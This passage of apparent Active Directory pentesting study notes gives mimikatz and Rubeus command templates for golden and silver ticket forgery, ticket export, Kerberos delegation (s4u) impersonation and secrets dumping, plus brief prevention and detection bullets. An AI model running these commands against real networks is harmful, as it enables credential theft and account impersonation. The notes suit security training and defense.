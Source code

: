 ```
/rc4|/krbtgt: hash of krbtgt 
/user: to issue the tickets (existent only) 
/id: 500 last part of SID for user

/renewmax: maximum days renew ticket
/endin: end of life

/ptt: inject into memory

## Silver: Service hash
kerberos::silver 
/admin:StillNotALegitAccount 
/domain: 
/sid:
/rc4:
/service:
/id:  
/target:Hostname of service 
/ptt:

# Export
sekurlsa::tickets /export

# List + check ticket
klist
dir \\dc1\c$ | \\domainc$
```

- Prevention
  - block users from authentication to any device + reet password of krbtgt + SIDHistory

- Detection
  - Privileged user not authenticating from Privielged Access Workstation
  - ID: 4624(success), 4625(failed), 4675 (cross-domain)
  - Login from compromised


### Kerberos Delegation attack
- Goal
  - access resources on different servers
  - service account request access on behalf of the user

- Path
  - Account trusted for delegation and request krbticket for user
  
```
# Find user trusted for delegation
Get-DomainComputer: check msDS-AllowedToDelegateTo (allow to impersonate)
Get-NetUser -TrustedToAuth | -Unconstrained
cme | nxc ldap --trusted-for-delegation

# Convert Password to NTLM hash of trusted user
rubeus.exe hash /password:PASS

# Generate ticket for account
rubeus.exe s4u /user:NAME /rc4:hash /domain: /impersonateuser: /msdsspn:"serv/name" /dc:dc1.name.local /ptt
/altservice:HOST,LDAP,CFIS

.\Rubeus.exe asktgt /user: /rc4: /domain:eagle.local /outfile:webservice.tgt
.\Rubeus.exe s4u /ticket:fileticket /msdsspn:"serv/name" /impersonateuser: /ptt

## With mimikatz
token::elevate # dump secrets from registry 
lsadumb::secrets # extract clear text credentials
```